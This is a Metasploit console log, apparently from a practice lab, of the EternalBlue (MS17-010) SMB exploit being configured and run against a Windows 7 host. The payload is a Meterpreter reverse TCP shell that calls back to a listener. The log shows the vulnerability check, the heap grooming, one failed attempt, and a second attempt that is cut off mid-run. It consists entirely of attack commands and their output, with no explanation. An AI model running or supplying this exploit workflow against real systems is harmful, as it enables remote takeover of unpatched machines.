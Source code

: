 ```c
                                             Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.88     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
```